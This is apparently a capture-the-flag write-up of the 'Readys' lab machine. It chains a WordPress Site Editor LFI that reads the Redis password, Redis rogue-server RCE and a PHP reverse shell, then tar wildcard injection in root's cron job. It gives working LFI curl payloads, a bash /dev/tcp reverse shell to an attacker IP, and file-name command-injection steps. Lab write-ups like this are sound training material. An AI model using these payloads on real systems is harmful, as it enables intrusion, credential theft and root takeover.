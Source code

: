 # Readys

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.208.166                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:23 +08
Nmap scan report for 192.168.208.166
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6379/tcp open  redis
```

Redis is enabled on this, which is probably vulnerable somehow. I did a detailed scan too:

```
$ nmap -p 80,6379 -sC -sV --min-rate 3000 192.168.208.166        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 15:24 +08
Nmap scan report for 192.168.208.166
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Readys &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: WordPress 5.7.2
6379/tcp open  redis   Redis key-value store
```

Wordpress was running on the site, so let's scan that first.

### Redis Creds Block

The Redis instance needed credentials to enumerate:

```
$ redis-cli -h 192.168.208.166
192.168.208.166:6379> INFO
NOAUTH Authentication required.
```

### Wordpress LFI --> Redis Creds

I used `wpscan` on the website and found a vulnerable plugin.&#x20;

```
$ wpscan --api-token mytoken --enumerate p,t,u --url http://192.168.208.166
<TRUNCATED>
[+] site-editor
 | Location: http://192.168.208.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

I confirmed that this works:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we have an LFI, and the only other exploitable thing is the Redis instance. I tried to find credentials for it using this LFI, and found it within `/etc/redis/redis.conf`:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf > redis.conf
```
{% endcode %}

Searching for the `AUTH` string allowed me to find the password:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We can then enumerate the database:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Redis RCE

The Redis instance is vulnerable to RCE through the module loading exploit with Redis Rogue Server:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We can easily get a reverse shell using this RCE exploit:

<figure><img src="../../../.gitbook/assets/image (6) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis --> Alice

This user had extremely limited privileges over the file system. There was a user present, but I cold not even read the `/home` directory. There wasn't much else we could do besides try to execute PHP reverse shells using the LFI we had.

I wrote a PHP reverse shell to the `/opt/redis-cli` directory. Then, using our LFI, we can execute it:

{% code overflow="wrap" %}
```
$ curl http://192.168.208.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/phpreverseshell.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Cronjob --> Tar Command Injection

I ran `pspy64` on the machine to see what processes were being run.

```
2023/07/21 03:51:01 CMD: UID=0    PID=839    | /usr/sbin/CRON -f 
2023/07/21 03:51:01 CMD: UID=0    PID=840    | /bin/sh -c /usr/local/bin/backup.sh
```

`root` is running a script here:

```bash
alice@readys:~$ cat /usr/local/bin/backup.sh
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

This script checks multiple files at one go (3 in this case) Based on GTFOBins, we can use `tar` to execute commands.

{% embed url="https://gtfobins.github.io/gtfobins/tar/" %}

```bash
./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

To exploit this, we just need to create two files, one called `--checkpoint=1` and another called `--checkpoint-action=exec=bash ez.sh`.&#x20;

We can first create `ez.sh`:

```bash
echo '#!/bin/bash' > ez.sh
echo 'bash -i >& /dev/tcp/192.168.45.153/21 0>&1' >> ez.sh
chmod 777 ez.sh
```

Then, we can create the two files needed.

```bash
touch ./'--checkpoint=1'
touch ./'--checkpoint-action=exec=bash ez.sh'
```

After a while, the `root` user would execute the script and we would get a reverse shell:

![](<../../../.gitbook/assets/image (24).png>)
